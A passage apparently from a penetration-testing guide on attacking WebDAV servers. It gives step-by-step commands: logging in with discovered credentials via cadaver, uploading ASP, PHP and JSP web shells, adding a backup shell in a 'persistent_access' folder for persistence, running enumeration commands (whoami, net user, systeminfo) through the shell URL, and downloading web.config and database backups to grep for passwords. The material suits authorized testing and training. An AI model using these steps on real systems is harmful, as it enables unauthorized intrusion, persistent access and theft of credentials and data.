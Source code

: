 **Key Decision Points:**
- Identify executable file types for appropriate shell selection
- Confirm directory creation permissions for organized operations
- Note authentication requirements and credential validation

#### **Phase 2: Manual Exploitation (Cadaver)**
```bash
# Connect based on DavTest findings
cadaver http://target/webdav
Username: discovered_username
Password: discovered_password

# Upload appropriate web shell based on server technology analysis
put /usr/share/webshells/asp/cmd.asp    # For IIS servers (ASP execution confirmed)
put /usr/share/webshells/php/cmd.php    # For Apache servers (PHP execution confirmed)  
put /usr/share/webshells/jsp/cmd.jsp    # For Tomcat servers (JSP execution confirmed)

# Verify upload and create organized structure
ls
mkcol persistent_access
cd persistent_access
put backup_shell.asp
```

**Operational Benefits:**
- **Precision:** Target specific server technologies based on assessment
- **Organization:** Create structured access for team operations
- **Persistence:** Multiple access points for reliability

#### **Phase 3: Verification and Command Execution (Browser)**
```bash
# Access uploaded web shell via browser interface
firefox http://target/webdav/cmd.asp?cmd=whoami

# Systematic command execution testing
# URL: http://target/webdav/cmd.asp?cmd=dir+C:\        # File system enumeration
# URL: http://target/webdav/cmd.asp?cmd=net+user      # User account enumeration  
# URL: http://target/webdav/cmd.asp?cmd=systeminfo    # System information gathering
```

**Verification Checklist:**
- Command execution functionality confirmed
- System information accessible
- File system navigation possible
- User context identified

### **🔧 Secondary Integration: Cadaver + Curl + Local File Analysis**

This workflow emphasizes intelligence gathering and file analysis capabilities.

```bash
# Intelligence gathering phase with cadaver
cadaver http://target/webdav
get web.config          # IIS configuration file
get database_backup.sql # Database backup files
get application.log     # Application log files
get .htaccess          # Apache configuration (if present)
quit

# Local analysis with standard tools
cat web.config | grep -i password        # Search for hardcoded credentials
strings database_backup.sql | grep -i user  # Extract user information
tail -f application.log                   # Monitor real-time activity
grep -r "connection" *.config            # Find database connections
```